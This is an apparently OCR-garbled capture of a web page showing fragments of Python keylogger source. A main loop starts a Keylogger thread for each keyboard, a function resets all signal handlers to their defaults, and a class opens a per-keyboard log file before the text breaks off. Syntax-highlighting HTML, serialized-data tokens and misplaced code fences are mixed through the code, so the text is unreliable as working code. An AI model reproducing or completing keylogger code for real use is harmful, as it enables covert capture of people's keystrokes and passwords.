 ```yaml
    keyboards = get_listanables_keyboards()
    for keyboard in keyboards:
    Keylogger(keyboard).start()
    signal_listener()</p></div>
    ;i:6;s:1504:
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="python" style="font-family:monospace;"><span style="color: #ff7700;font-weight:bold;">def</span> signal_listener<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>:
    <span style="color: #ff7700;font-weight:bold;">for</span> sig <span style="color: #ff7700;font-weight:bold;">in</span> <span style="color: #008000;">range</span><span style="color: black;">&#40;</span><span style="color: #ff4500;">1</span><span style="color: #66cc66;">,</span> <span style="color: #dc143c;">signal</span>.<span style="color: black;">NSIG</span><span style="color: black;">&#41;</span>:
    <span style="color: #ff7700;font-weight:bold;">try</span>:
    <span style="color: #dc143c;">signal</span>.<span style="color: #dc143c;">signal</span><span style="color: black;">&#40;</span>sig<span style="color: #66cc66;">,</span> <span style="color: #dc143c;">signal</span>.<span style="color: black;">SIG_DFL</span><span style="color: black;">&#41;</span>
    <span style="color: #ff7700;font-weight:bold;">except</span> <span style="color: #008000;">RuntimeError</span>:
    <span style="color: #ff7700;font-weight:bold;">pass</span></pre></td></tr></table><p class="theCode" style="display:none;">def signal_listener():
    for sig in range(1, signal.NSIG):
    try:
    signal.signal(sig, signal.SIG_DFL)
    except RuntimeError:
    pass</p></div>
    ;i:7;s:3315:
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="python" style="font-family:monospace;"><span style="color: #ff7700;font-weight:bold;">class</span> Keylogger<span style="color: black;">&#40;</span>Thread<span style="color: black;">&#41;</span>:
    <span style="color: #483d8b;">&quot;&quot;&quot;Keylogger for a single keyboard&quot;&quot;&quot;</span>
    <span style="color: #ff7700;font-weight:bold;">def</span> <span style="color: #0000cd;">__init__</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: #66cc66;">,</span> keyboard<span style="color: black;">&#41;</span>:
    Thread.<span style="color: #0000cd;">__init__</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>
    <span style="color: #008000;">self</span>._keyboard <span style="color: #66cc66;">=</span> keyboard
    <span style="color: #008000;">self</span>._filename <span style="color: #66cc66;">=</span> <span style="color: #483d8b;">'keyboard%d.log'</span> % <span style="color: #008000;">self</span>._keyboard
    <span style="color: #008000;">self</span>._file <span style="color: #66cc66;">=</span> <span style="color: #008000;">open</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span>._filename<span style="color: #66cc66;">,</span> <span style="color: #483d8b;">'w+'</span><span style="color: black;">&#41;</span>
    <span style="color: #008000;">self</span>.__define_constants<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> <span style="color: #0000cd;">__del__</span><span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    <span style="color: #008000;">self</span>.__exit__<span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> __exit__<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
    <span style="color: #008000;">self</span>._file.<span style="color: black;">close</span><span style="color: black;">&#40;</span><span style="color: black;">&#41;</span>
    &nbsp;
    <span style="color: #ff7700;font-weight:bold;">def</span> run<span style="color: black;">&#40;</span><span style="color: #008000;">self</span><span style="color: black;">&#41;</span>:
```